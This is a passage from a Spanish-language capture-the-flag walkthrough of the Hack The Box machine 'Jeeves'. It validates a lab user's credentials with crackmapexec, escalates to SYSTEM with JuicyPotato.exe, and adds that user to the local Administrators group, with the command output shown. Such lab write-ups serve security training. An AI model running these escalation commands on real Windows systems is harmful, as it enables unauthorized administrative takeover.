 Si validamos vemos que es valido 

```bash
❯ crackmapexec smb 10.10.10.63 -u 'miguel' -p 'miguel123$!'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\miguel:miguel123$!
```

Ahora tenemos que hacer que forme del grupo **Administrators** podemos hacerlo con **JuicyPotato.exe** 

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators miguel /add" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Prives>
```

Y bueno ahora formamos parte del grupo

```bash
net user miguel
net user miguel
User name                    miguel
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/3/2023 3:03:27 AM
Password expires             Never
Password changeable          7/3/2023 3:03:27 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.


C:\Windows\Temp\Prives>
```
